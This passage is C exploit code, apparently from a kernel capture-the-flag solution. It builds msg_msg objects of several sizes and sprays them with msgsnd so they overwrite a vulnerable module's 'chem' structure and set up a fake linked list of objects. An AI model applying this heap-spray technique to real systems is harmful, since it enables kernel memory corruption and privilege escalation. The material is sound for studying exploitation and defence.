 ```c
  payload_256[23] = 0x0; // bk
  payload_256[24] = 0x0; // note size
  payload_256[25] = 0x0; // note

  struct msgmsg_512 {
    long mtype;
    char mtext[512 - 0x30];
  } msgmsg_512;
  msgmsg_512.mtype = 0x512;
  size_t *payload_512 = (size_t *) msgmsg_512.mtext;
  payload_512[19] = 0x512; // unknown_1
  payload_512[20] = 0x512; // unknown_2
  payload_512[21] = 0x1; // chem idx
  payload_512[22] = 0x0; // fd
  payload_512[23] = 0x0; // bk
  payload_512[24] = 0x0; // note size
  payload_512[25] = 0x0; // note

  // for pipe_buf
  struct msgmsg_1k {
    long mtype;
    char mtext[1024 - 0x30];
  } msgmsg_1k;
  msgmsg_1k.mtype = 0x1024;
  size_t *payload_1k = (size_t *) msgmsg_1k.mtext;

  struct msgmsg_2k {
    long mtype;
    char mtext[2048 - 0x30];
  } msgmsg_2k;
  msgmsg_2k.mtype = 0x2048;
  size_t *payload_2k = (size_t *) msgmsg_2k.mtext;
  payload_2k[19] = 0x2048; // unknown_1
  payload_2k[20] = 0x2048; // unknown_2
  payload_2k[21] = 0x2; // chem idx
  payload_2k[22] = 0x0; // fd
  payload_2k[23] = 0x0; // bk
  payload_2k[24] = 0x0; // note size
  payload_2k[25] = 0x0; // note

  // spray msg_msg structs to overwrite chem merged struct and begin to setup fake obj linked list
  puts("[+] spray msg_msg for pipe_buf (cg-1k)");
  for (int i = 0; i < msgs_spray; i++) {
    msgsnd(msg_queues[i], &msgmsg_1k, sizeof(msgmsg_1k) - sizeof(long), 0);
  }
  puts("[+] spraying msg_msg for victim (cg-256)");
  for (int i = 0; i < msgs_spray; i++) {
    payload_256[0] = i;
    msgsnd(msg_queues[i], &msgmsg_256, sizeof(msgmsg_256) - sizeof(long), 0);
  }
  puts("[+] spraying msg_msg for attacker (cg-512)");
  for (int i = 0; i < msgs_spray; i++) {
    payload_512[0] = i; // so we can identify the msg_msg idx later on
    msgsnd(msg_queues[i], &msgmsg_512, sizeof(msgmsg_512) - sizeof(long), 0);
  }
  puts("[+] spraying msg_msg for fulfill (cg-2k)");
  for (int i = 0; i < msgs_spray; i++) {
    payload_2k[0] = i;
    msgsnd(msg_queues[i], &msgmsg_2k, sizeof(msgmsg_2k) - sizeof(long), 0);
  }
  puts("[+] done spraying");

  chem_read(0, buf0, buf1);
```
